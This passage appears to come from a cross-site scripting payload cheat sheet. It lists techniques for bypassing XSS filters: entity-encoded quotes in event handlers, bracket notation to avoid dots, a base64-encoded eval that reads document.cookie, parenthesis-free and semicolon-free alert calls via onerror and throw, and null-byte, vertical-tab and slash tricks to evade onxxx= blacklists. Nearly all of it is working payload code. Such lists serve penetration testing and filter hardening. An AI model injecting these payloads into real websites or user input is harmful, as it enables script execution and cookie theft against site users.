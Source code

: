 ### Bypass quotes in mousedown event

You can bypass a single quote with &#39; in an on mousedown event handler

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```

### Bypass dot filter

```javascript
<script>window['alert'](document['domain'])</script>
```

Convert IP address into decimal format: IE. `http://192.168.1.1` == `http://3232235777`
http://www.geektools.com/cgi-bin/ipconv.cgi

```javascript
<script>eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))<script>
```

Base64 encoding your XSS payload with Linux command: IE. `echo -n "alert(document.cookie)" | base64` == `YWxlcnQoZG9jdW1lbnQuY29va2llKQ==`

### Bypass parenthesis for string

```javascript
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
```

### Bypass parenthesis and semi colon

```javascript
// From @garethheyes
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>

// From @terjanq
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>

// From @cgvwzq
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```

### Bypass onxxxx= blacklist

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>

// Bypass onxxx= filter with a null byte/vertical tab
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />

// Bypass onxxx= filter with a '/'
<img src='1' onerror/=alert(0) />
```
